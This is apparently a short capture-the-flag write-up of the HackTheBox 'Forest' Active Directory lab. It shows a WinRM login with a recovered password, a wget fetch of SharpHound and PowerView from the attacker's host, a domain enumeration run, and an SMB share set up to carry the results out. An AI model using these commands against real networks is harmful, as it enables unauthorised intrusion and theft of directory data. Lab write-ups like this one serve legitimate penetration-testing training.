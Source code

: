 I 
https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm

```

1562  sudo gem install evil-winrm                                                                                  
1563  evil-winrm -u svc-alfresco -p s3rvice 10.10.10.161   

```
I gained the system access with evil-winrm. The first thing I did was I upload SharpHound and Powerview to the target.

SharpHound and Powerview are well-known AD enumeration tools. SharpHounds generates zip file with AD system information, which can be ingested into Bloodhound. 

SharpHound can be run on the target system to gather information. SharpHound will create many JSON files. 
I can import the zip file to BloodHound.

The file can be exported in many ways; here, I used the smb option.  
```
┌──(kali㉿kali)-[~/HTB/Forest/exploit/bloodhound]
└─$ unzip 20221203162916_BloodHound.zip 
Archive:  20221203162916_BloodHound.zip
  inflating: 20221203162916_computers.json  
  inflating: 20221203162916_users.json  
  inflating: 20221203162916_groups.json  
  inflating: 20221203162916_containers.json  
  inflating: 20221203162916_domains.json  
  inflating: 20221203162916_gpos.json  
  inflating: 20221203162916_ous.json  
                                          
```


```
wget 10.10.16.9/SharpHound.ps1 -O SharpHound.ps1

wget 10.10.16.9/powerview.ps1 -O powerview.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice



Kali
impacket-smbserver share . -smb2support -username scriptkiddie -password aa

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net use \\10.10.16.9\share /u:scriptkiddie aa


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net use /d \\10.10.16.9\share



```
